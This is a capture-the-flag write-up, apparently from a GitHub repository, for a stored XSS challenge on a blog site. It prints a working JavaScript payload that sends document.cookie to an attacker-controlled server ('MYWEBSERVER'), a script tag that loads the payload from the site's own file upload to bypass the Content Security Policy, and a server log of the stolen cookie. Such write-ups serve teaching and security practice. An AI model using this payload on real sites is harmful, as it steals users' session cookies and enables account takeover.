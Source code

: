 # My First Blog

## Description
```
Why is this file upload feature needed if it is safe??
```

## Writeup

Taking a look at the website we see some things going on there. <br/>
![image](https://github.com/Aryt3/writeups/assets/110562298/dfc95f3f-1084-4f84-a6f0-0c24120c0c09)

Now my first assumption was that this has to be an `XSS` vulnerability because we are able to create blog posts and report them meaning someone (a bot) would probably visit the webpage. <br/>
Testing out the different input fields I found that `Content` was vulnerable to `XSS` because I could inject custom `html`. <br/>
The problem I had was that the `Content Security Policy` was denying any outside source being accessed. <br/>
Knowing this I had to somehow bypass the `CSP` and looking at the homepage we can see that there is also a file uplaod feature. <br/>

Having this information I crafted my javascript exploit which gets the `document.cookie` and sends it to the webserver I own. <br/>
```js
var xhr = new XMLHttpRequest();
var url = `https://MYWEBSERVER/${document.cookie}`;

xhr.open('GET', url, true);
xhr.send();
```

Having the exploit I created a new blog post with the content being the one below. <br/>
```html
<script src="/files/my_exploit.js"></script>
```

I then proceeded to report this blog post. <br/>
Looking at the access logs of my webserver I got a new request. <br/>
```
aryt3@mywebserver tail -f /var/log/nginx-access.log

-------------------------------------
45.88.77.177 - - [11/Jan/2024:20:01:47 +0100] "GET /Cookie-grodno%?BxsS_8L09_12312dD%7D HTTP/1.1" 404 188 "http://127.0.0.1:21000/" "Mozilla/5.0 (X11; Linux x86 _64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.0.0 Safari/537.36"
```

Having gotten a request with the encoded cookie `/Cookie-grodno%?BxsS_8L09_12312dD%7D` I URL-decoded it. <br/>
Getting the flag `grodno{xsS_8L09_12312dD}` concludes this writeup.
